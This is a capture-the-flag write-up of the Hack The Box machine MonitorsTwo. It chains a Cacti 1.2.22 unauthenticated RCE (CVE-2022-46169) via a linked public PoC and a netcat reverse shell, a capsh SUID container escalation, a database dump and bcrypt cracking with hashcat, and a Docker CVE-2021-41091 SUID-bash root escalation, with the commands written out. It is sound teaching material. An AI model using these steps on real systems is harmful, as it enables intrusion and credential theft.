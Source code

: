 # Monitors 2

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command “sudo nmap -sS --min-rate 10000 -p- monitors2.htb”

![Imagen1](https://github.com/0xCOrS/WriteUps/assets/97627828/98bff5d9-6b41-4f5d-bcad-71127d428905)

Once the open ports are known, It began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: “sudo nmap -sS -sV -O -oN moni-tors2ServiceVersions p22,80 -Pn monitors2.htb”

![Imagen2](https://github.com/0xCOrS/WriteUps/assets/97627828/d6d7f1c5-138c-4dcd-a371-fa1a6e15198b)

### Port Scan Results

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/35cd654f-d65c-450c-88c7-df5e3f4ac701)

### HTTP Enumeration

The first thing done is to manually visit the web. Landing page is a login page where it is found that web server is running Cacti software version 1.2.22

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/4203219c-f57d-4667-818d-506160863446)

With this information, I elaborate a dictionary with the default cacti directories (found on cacti github https://github.com/Cacti/cacti.git ) and run a directory scan using gobuster to find which of those pages I have access to.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/c0372472-f134-4a98-a007-f2140f51c2fc)

Simultaneously software version vulnerabilities are search and a very interesting Un-authenticated RCE vulnerability is found (CVE 2022-46169).

## Initial Access – Unauthenticated RCE

**Vulnerability Explanation**: Cacti software version 1.2.22 is prone to an unauthenticated RCE vulnerability. The problem resides in “remote_agent.php” as it can be accessed without authen-tication and the way it checks if the remote host is authorized is by looking the entries at the “poller” table and verifying that there is a entry where the hostname is equal to the remote host-name (obtained from the IP address (previously retrieved by get_client_addr function) using gethostbyaddr function). It is possible to bypass this authentication method by using the HTTP header “Forwarded-For” and introducing the server IP address (“https://nvd.nist.gov/vuln/detail/CVE-2022-46169”). 

**Vulnerability Fix**: Update the software to version 1.2.23 or greater.

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, the steps taken were the following:

  • Download exploit PoC from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.
      
  •	Setup a listener in port 444 with “nc -lvp 444”
      
  •	Run the exploit using the command “python cactiRCE.py –url http://monitorstwo.htb --ip 10.10.14.9 --port 444”
      
![image](https://github.com/0xCOrS/WriteUps/assets/97627828/6b1ed4cc-d7b9-42f1-914c-5a5753154551)
    
  •	Receiving the shell in port 444.
      
![image](https://github.com/0xCOrS/WriteUps/assets/97627828/c491d862-f13d-4ca6-91da-e214d00bb6f2)

**Proof of Concept Code**: no modifications were made to the original exploit PoC obtained from “https://github.com/devilgothies/CVE-2022-46169/blob/main/CVE-2022-46169.py”.

## Docker Privilege escalation & Docker Escape.

Once a shell as www-data is obtained, it is clear that there is a docker running. It is clear because of:

      •	Existence of the files “/.docker.env” and “/entrypoint.sh”

      •	Hostname is “50bca5e748b0”

      •	We find ourselves in a restricted environment with limited commands, no “ifcon-fig”, no “ping”.
 
![image](https://github.com/0xCOrS/WriteUps/assets/97627828/6e708764-cd72-4a2a-b7d2-7704578602b7)

To escalate privileges, find command will be used to search for SUID binaries in the container.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/54d1ff1a-0d2c-4489-b294-e850cf4e636d)

As shown in the previous picture, capsh is found. This binary is very useful at privilege escalation stage (https://gtfobins.github.io/gtfobins/capsh/) as it is possible to spawn a privilege bash using “./capsh --gid=0 --uid=0 --".

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/a71ada31-fae6-458e-a0e4-b7f0d22c7b5d)

Now that root shell is obtained inside the container, the next step is to escape outside the container to the host.

For this step, it is vital the “/entrypoint.sh” file. 

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/fac5b53b-7c5a-4b9e-b5d8-72fbb4ecd40b)

As it is shown in the highlighted area, there are cleartext credentials for MySQL user “root”. 

Trying to use mysql tool inside the container is very slow so it is decided to dump the database and to inspecting manually on the attacking machine. For this, mysqldump tool is used “mysqldump -h db -u root -p --all-databases > /tmp/dumping.sql”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/569def36-cf8a-4c9f-8639-a632e3e9dd26)

To transfer the file to the attacking machine, I simply locate the file on the web server root, make it public changing its permissions to 777 and download it with “wget http://monitorstwo.htb/dumping.sql”.

Once on the attacking machine, inspecting the contents, password hashes are found for three different users: guest, admin and marcus.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/7cf7af24-bcbe-4702-b3b6-355d49f1efa6)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/545cfc56-fc33-4416-88b0-3405c2b838d1)

“Admin” and “Marcus” hashes are “bcrypt $2*$, Blowfish” type of hash.

Next step is to try and crack these hashes. For this, hashcat will be used and specifi-cally “.\hashcat -m 3200 -a 0 hash.txt rockyou.txt”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/262e004c-424b-4f82-93af-1af2aa1a5815)

As seen in Illustration 13 recovered password for user “marcus” is “funkymonkey”. Using these credentials via ssh on the host lets us escape the docker environment and access as a regular user on the host “monitorstwo”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/fb13a592-5b98-44f2-9b36-07faf887a484)

Once inside the host, an interesting mail file is found “/var/mail/marcus”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/470fa94a-8d02-434a-921e-cd82e3b529e1)

Mail contains a message from the Administrator to everybody where it talks about some vulnerabilities that need to be patched in the system. Checking software ver-sions, it is possible to confirm that Docker software version is vulnerable to “CVE-2021-41091”

## Privilege Escalation – CVE-2021-41091

**Vulnerability Explanation**: There is a vulnerability in Moby Docker Engine where the data directo-ry “/var/lib/docker” contains subdirectories with insufficiently restricted permissions. As a result, an unprivileged user on the host, can traverse directory contents and execute programs. If the UID of the user on the Host, collided with the file owner or group inside the container, the unpriv-ileged user of the host could discover, read, and modify those files (https://github.com/kube-tarian/sigrun/issues/100) (https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html). 
Taking into account the latter, if a binary is owned by root in the container, it will be owned also by root once accessed from outside the container. A copy of “/bin/bash” will be moved inside the container, SUID will be set to this copy by root, and then it will be accessed and executed from outside the container allowing user “marcus” to gain privileges and become root.

**Vulnerability Fix**: Update Moby to v20.10.9.

**Severity**: Medium

**Steps to reproduce the attack**:

• Identify the host path of files within the container. This can be done by extracting the “upperdir” mount option of the container mount point 
      ```
      sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
      ```
      
![image](https://github.com/0xCOrS/WriteUps/assets/97627828/8b8cdfa7-4583-4ced-86f2-7b2fdc01a9cb)

• Check that from the host with a non-privileged user it is possible to interact with the container file system. A file “/tmp/checking” will be created inside the container and accessed from the host via “/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/tmp/checking”

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/90e3e182-0f14-4664-b10e-6e4f8fd732ea)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/589e4592-3f70-49cf-816f-175669b5b81d)

• Copy bash binary from the host to the container.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/4c9d340e-070c-450e-a696-f5e19fbb6043)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/dd9e4f65-c51b-46f8-8f2a-57578383a966)

• Change the owner to root:root and set permissions to 4755 (SUID) to /tmp/bash from inside the container as root.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/c67e88bb-29bf-4833-bae1-98e58fa27a08)

• Check permissions of the file from the host as “marcus”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/29a5ff88-787c-4a23-b4a2-a004ed3eebcc)

• Elevate privileges executing the binary with “-p” flag from outside the container.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/3f2ee68f-1623-4ee6-b1c2-174d33e660f4)

### Post-Expoitation

**System Proof Screenshot**

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/792ac78c-bf1a-4041-ab2c-c7a64e60fe3d)






      






